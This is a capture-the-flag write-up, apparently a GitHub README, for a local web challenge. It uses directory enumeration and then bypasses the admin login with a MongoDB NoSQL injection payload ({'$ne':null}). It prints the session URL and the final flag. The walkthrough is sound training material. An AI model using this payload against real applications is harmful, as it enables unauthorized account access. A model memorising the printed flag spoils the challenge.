 # 🕵️‍♂️ Chronos Timepieces CTF Challenge - Solution

## 🔍 Challenge Overview
This challenge involved **web exploitation**, specifically a **NoSQL Injection vulnerability** in a Node.js (Express) and MongoDB backend. The goal was to **gain admin access** and retrieve a **hidden flag**, which was protected by a **fake flag mechanism**.

---

## 🛠️ Solution Steps

### 🔎 Step 1: Initial Reconnaissance & Discovery

Visiting `http://localhost:3000` showed a clean site for "Chronos Timepieces" with no login links.

➡️ Ran directory enumeration:

```bash
dirb http://localhost:3000 /usr/share/wordlists/dirb/common.txt
```

**Result:** Revealed `/login`, which led to the "Chronos Admin Portal" login page.

---

### 💉 Step 2: Exploiting NoSQL Injection

At `/login`, basic SQL injection didn’t work. But the structure hinted at **MongoDB**.

➡️ Intercepted POST request via **Burp Suite**:
```json
{"username":"test","password":"test"}
```

➡️ Modified it to use a NoSQL payload:
```json
{"username":"admin","password":{"$ne":null}}
```

➡️ Sent request, got **Login successful!** 🎉

---

### 🔐 Step 3: Redirect to Admin Panel

After login, it redirected to:
```
http://localhost:3000/admin?session_id=<UUID>
```

Dashboard loaded, but no flag in plain sight.

---

### 🚩 Step 4: Fake vs. Real Flag Discovery

➡️ Accessing `/flag` without session returned:

```
cyberQuest{..._FAKE}
```

➡️ Accessing `/flag` with the session_id revealed the **real flag**:

```
http://localhost:3000/flag?session_id=b0676170-ac74-4102-add5-deff3a5acaac
```

✅ Final Flag:
```
cyberQuest{N05QL_1nj3c710n_d0n3_r4xv2n3l8bq0jz9m7hk75y5u1gc3wd6}
```

---


